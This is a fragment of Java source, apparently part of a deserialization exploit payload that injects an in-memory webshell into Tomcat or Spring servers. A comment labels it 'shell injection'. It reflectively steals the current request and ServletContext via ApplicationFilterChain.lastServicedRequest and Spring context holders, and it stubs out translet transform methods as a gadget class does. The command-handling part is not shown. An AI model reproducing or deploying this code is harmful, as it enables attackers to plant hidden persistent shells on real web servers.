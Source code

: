 ```java
    private static ServletContext getServletContext() throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {
            }
        }
        if (servletRequest != null) return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {
        }
        return null;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }
```